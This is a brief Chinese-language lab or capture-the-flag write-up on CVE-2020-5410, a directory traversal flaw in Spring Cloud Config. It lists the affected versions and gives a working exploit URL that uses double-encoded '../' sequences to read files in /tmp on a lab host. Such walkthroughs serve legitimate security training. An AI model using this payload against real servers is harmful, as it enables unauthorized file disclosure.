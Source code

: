 # [Spring Cloud Config 目录穿越漏洞（CVE-2020-5410）by ]()[xiajibaxie](https://github.com/xiajibaxie)

## [一，漏洞描述]()

Spring Cloud Config 为分布式系统中的外部配置提供服务器和客户端支持，使用 Config Server ，用户可以在所有环境中管理应用程序的外部属性。近日，百度云安全团队监测到 Spring Cloud Config 官方发布了一个目录遍历漏洞的风险通告，漏洞编号为 CVE-2020-5410 。攻击者可通过构造特殊的 HTTP 请求，从而跨目录读取文件。

## [二，影响版本]()

2.2.x<=2.2.2
2.1.x<=2.1.8

## [三，利用流程]()

访问地址： `10.10.11.20:32446`

名称：CVE-2020-5410 Spring Cloud Config 目录穿越漏洞



1执行命令查看 tmp 文件获得 flag 

```
http://10.10.11.20:32446/..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252Ftmp%23foo/development
```

![1](./1.jpg)

通关！

## [参考]()

https://xz.aliyun.com/t/7877
